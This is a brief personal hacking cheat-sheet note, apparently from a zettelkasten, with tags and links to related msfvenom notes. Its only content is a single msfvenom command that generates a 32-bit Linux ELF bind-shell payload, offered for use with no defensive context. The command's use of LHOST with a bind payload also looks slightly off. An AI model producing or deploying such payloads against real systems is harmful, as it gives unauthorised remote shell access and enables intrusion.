 # MSFVENOM Linux Binary (.elf) 32 Bit (x86) Bind Shell
```bash
msfvenom -p linux/x86/shell/bind_tcp  LHOST=$LHOST -f elf > bind_shell.elf
```

# Related
- [20221003150765](/zet/20221003150765/README.md) MSFVENOM Linux Binary (.elf) 32 Bit (x86)
- ~/kb/hacking/commands/msfvenom-commands.md

Tags:
    #assorted #command #hacking #msfvenom
